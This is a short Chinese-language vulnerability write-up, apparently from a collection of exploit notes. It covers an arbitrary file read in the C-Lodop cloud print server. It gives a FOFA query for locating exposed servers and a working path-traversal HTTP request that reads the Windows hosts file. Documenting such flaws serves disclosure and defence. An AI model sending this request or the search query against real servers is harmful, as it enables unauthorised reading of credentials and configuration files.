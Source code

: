 # C-Lodop打印服务系统存在任意文件读取漏洞

# 一、漏洞简介
C-Lodop云打印服务器是一款非常好用且受欢迎的专业云打印软件，简单实用，易操作。攻击者可利用此漏洞获取服务器上的任意文件，包括数据库凭据、API密钥、配置文件等，从而获取系统权限和敏感信息。

# 二、影响版本
+ C-Lodop打印服务系统

# 三、资产测绘
+ fofa`"C-Lodop" && icon_hash="-329747115"`
+ 特征

![1708149014735-a271087e-43e2-4581-b58f-bf1ea1c76ccb.png](./img/nMpcvRKOmZw8jtUJ/1708149014735-a271087e-43e2-4581-b58f-bf1ea1c76ccb-469585.png)

# 四、漏洞复现
```plain
GET /..././..././..././..././Windows/System32/drivers/etc/hosts HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
```

![1708149061920-15696431-0199-4458-b957-771df9fb1277.png](./img/nMpcvRKOmZw8jtUJ/1708149061920-15696431-0199-4458-b957-771df9fb1277-034670.png)



> 更新: 2024-02-29 23:57:11  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/cg548zol8agvqu5o>